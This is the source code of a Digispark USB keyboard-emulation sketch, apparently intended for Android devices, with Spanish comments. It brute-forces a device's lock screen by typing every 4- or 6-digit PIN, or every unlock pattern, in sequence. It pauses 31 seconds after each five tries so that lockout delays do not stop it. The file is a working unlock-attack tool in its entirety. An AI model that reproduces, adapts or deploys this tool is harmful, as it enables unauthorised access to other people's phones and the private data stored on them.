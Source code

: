 # Digispark3Mex By: HellPineapple

#include "DigiKeyboard.h"

// Mapeo de teclas para dígitos 0-9
int num[] = {39, 30, 31, 32, 33, 34, 35, 36, 37, 38};

// Mapeo de teclas para los nodos del patrón
int patternNodes[] = {44, 45, 46, 47, 48, 49, 50, 51, 52}; // Ejemplo

// Configuraciones
const int PIN_LENGTH = 4; // Cambiar a 6 para PIN de 6 dígitos
bool usePattern = false; // Cambiar a true para usar el patrón de desbloqueo

// Variables para el PIN
int digits[6] = {0, 0, 0, 0, 0, 0};

// Variables para el patrón
const int PATTERN_LENGTH = 4; // Longitud del patrón de desbloqueo
int pattern[9] = {0, 0, 0, 0, 0, 0, 0, 0, 0}; // Almacena la secuencia del patrón

const int ENTER_KEY = 40;
const int DELAY_TIME = 31000;

int count = 0;

void setup() {
  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  delay(3000);
}

void sendKeys(int* keys, int* values, int length) {
  for (int i = 0; i < length; i++) {
    DigiKeyboard.sendKeyStroke(keys[values[i]]);
  }
  DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter
  delay(1000);
}

void incrementKeys(int* keys, int length, int max) {
  for (int i = length - 1; i >= 0; i--) {
    keys[i]++;
    if (keys[i] < max) break;
    keys[i] = 0;
  }
}

void loop() {
  if (count == 5) {
    digitalWrite(1, HIGH); // LED on to indicate delay
    DigiKeyboard.sendKeyStroke(ENTER_KEY); // Enter to dismiss any popup
    delay(DELAY_TIME);
    count = 0;
    digitalWrite(1, LOW); // LED off
  }

  if (usePattern) {
    sendKeys(patternNodes, pattern, PATTERN_LENGTH);
    incrementKeys(pattern, PATTERN_LENGTH, 9);
  } else {
    sendKeys(num, digits, PIN_LENGTH);
    incrementKeys(digits, PIN_LENGTH, 10);
  }

  count++;
}
